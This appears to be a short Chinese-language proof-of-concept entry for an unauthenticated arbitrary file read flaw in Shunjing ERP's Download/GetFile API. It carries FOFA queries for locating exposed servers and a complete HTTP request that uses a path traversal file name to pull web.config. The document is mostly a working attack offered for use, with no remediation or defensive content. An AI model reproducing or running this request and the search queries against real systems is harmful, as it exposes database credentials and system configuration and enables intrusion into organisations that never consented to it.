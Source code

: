# 顺景ERP系统GetFile任意文件读取漏洞

顺景ERP是一款功能全面、高度集成、易于扩展的企业管理软件，能够帮助制造企业实现智能化、精益化管理，提升企业的竞争力和盈利能力。为企业提供全方位信息化的管理应用与支持，例如，在精密五金行业，系统可根据企业的业务流程及特性提供针对性信息化管理方案；在注塑行业，系统具有完整的水口料管理方案，对企业成本控制严谨到位；在电子行业，系统的BOM批量变更功能，能快速准确进行物料变更，并支持替代料功能等。顺景ERP Download/GetFile 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
body="/api/DBRecord/getDBRecords"
body="顺景软件 WebAPI 服务端"
```

## poc

```javascript
GET /api/Download/GetFile?FileName=/../web.config&Title= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20241128093802818](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280938886.png)
